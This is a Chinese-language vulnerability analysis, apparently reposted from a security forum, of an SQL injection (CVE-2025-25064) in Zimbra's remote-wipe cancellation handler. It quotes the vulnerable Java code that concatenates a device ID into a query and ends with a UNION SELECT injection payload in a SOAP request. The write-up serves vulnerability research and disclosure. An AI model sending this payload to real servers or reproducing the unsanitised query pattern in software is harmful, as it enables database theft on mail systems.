

# CVE-2025-25064｜Zimbra存在SQL注入漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/16932  
> **文章ID**: 16932

---

# Zimbra简介

Zimbra提供一套开源协同办公套件包括WebMail，日历，通信录，Web文档管理和创作。

# 漏洞描述



# 漏洞原因

漏洞的根本原因在于CancelPendingAccountOnlyRemoteWipe处理器中对用户输入（即设备ID）的处理方式不当

# 漏洞代码

```
// lib/ext/zimbrasync/zm-sync-store/com/zimbra/zimbrasync/service/CancelPendingAccountOnlyRemoteWipe.java
public static List<Device> getDevices(Integer mailboxId, String deviceId, Byte status, Boolean incluedeDeletedByUser, int offset, int limit, String deviceName, String deviceType, String deviceLastUsed, String deviceSyncVersion, Boolean filterDevicesByAnd, Boolean includeMatchingDevices) throws ServiceException {
    List<Device> devices = new ArrayList<>();
    DbPool.DbConnection conn = STATUS_POLICY_NEEDPROV;
    PreparedStatement stmt = STATUS_POLICY_NEEDPROV;
    ResultSet rs = STATUS_POLICY_NEEDPROV;
    String queryAppendString = filterDevicesByAnd.booleanValue() ? " AND" : " OR";
    Boolean isQueryBeingCreated = false;
    StringBuilder query = new StringBuilder();
    query.append("SELECT device_id, device_type, user_agent, protocol_version, provisionable, status, policy_key, recovery_password, first_req_received, last_policy_update, remote_wipe_req, remote_wipe_ack, policy_values, last_used_date, deleted_by_user, model, imei, friendly_name, os, os_language, phone_number, unapproved_appl_list, approved_appl_list, mailbox_id, mobile_operator, last_updated_by, update_time FROM mobile_devices");
    if (mailboxId != null && mailboxId.intValue() > 0) {
        query.append(" WHERE");
        query.append(" mailbox_id = ?");
        isQueryBeingCreated = true;
    }
    if (!StringUtil.isNullOrEmpty(deviceId)) {
        if (isQueryBeingCreated.booleanValue()) {
            query.append(queryAppendString);
        } else {
            query.append(" WHERE");
            isQueryBeingCreated = true;
        }
        if (includeMatchingDevices.booleanValue()) {
            Pattern pattern = Pattern.compile("(?<!\.)\*");
            Matcher matcher = pattern.matcher(deviceId);
            query.append(" device_id").append(" REGEXP '^" + matcher.replaceAll(".*") + "$'");
        } else {
            query.append(" device_id = '" + deviceId + "'"); // 漏洞点
        }
    }
```

这里变量deviceId插入了sql查询语句，所以这里就有可能产生sql注入漏洞

跟进一下getDevices方法

```
public static Device getDevice(Integer mailboxId, String deviceId) throws ServiceException {
    List<Device> devices = getDevices(mailboxId, deviceId, null, true); //调用getDevices方法
    if (devices.size() == 0) {
        throw ZimbraSyncServiceException.NO_SUCH_DEVICE();
    }
    if ($assertionsDisabled || devices.size() == STATUS_OK) {
        return devices.get(STATUS_POLICY_NEEDPROV);
    }
    throw new AssertionError();
}
```

跟进一下getDevice方法

```
import com.zimbra.common.service.ServiceException;
import com.zimbra.common.soap.Element;
import com.zimbra.common.soap.SyncConstants;
import com.zimbra.cs.account.Account;
import com.zimbra.cs.mailbox.MailboxManager;
import com.zimbra.soap.DocumentHandler;
import com.zimbra.soap.ZimbraSoapContext;
import com.zimbra.zimbrasync.Device;
import com.zimbra.zimbrasync.util.SyncUtil;
import java.util.Map;

public class CancelPendingAccountOnlyRemoteWipe extends DocumentHandler {
    public Element handle(Element request, Map<String, Object> context) throws ServiceException {
        ZimbraSoapContext zsc = getZimbraSoapContext(context);
        Account account = getRequestedAccount(zsc);
        if (!canAccessAccount(zsc, account)) {
            throw ServiceException.PERM_DENIED("can not access account");
        }
        String deviceId = request.getElement("device").getAttribute("id"); // 接收变量deviceId
        Device device = Device.getDevice(Integer.valueOf(MailboxManager.getInstance().getMailboxByAccount(account).getId()), deviceId); // [3]
        if (SyncUtil.isUserSyncActionAllowed("CancelPendingAccountOnlyRemoteWipeRequest", device.getStatus(), device.getLastUpdatedBy())) {
            device.cancelPendingAccountOnlyRemoteWipe("User");
            Element response = zsc.createElement(SyncConstants.CANCEL_PENDING_ACCOUNT_ONLY_REMOTE_WIPE_RESPONSE);
            GetDeviceStatus.encodeDeviceStatus(response, device);
            return response;
        }
        throw ServiceException.PERM_DENIED("You don't have permission to cancel pending account only wipe");
    }
}
```

发现在这里用户可以输入变量deviceId，且没有任何过滤和转义

payload:

```
{
  "Body": {
    "CancelPendingAccountOnlyRemoteWipeRequest": {
      "_jsns": "urn:zimbraSync",
      "device": {
        "id": "aaaa' union select 111,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,18,20,21,22,23,24,25,26,111"
      }
    }
  }
}
```
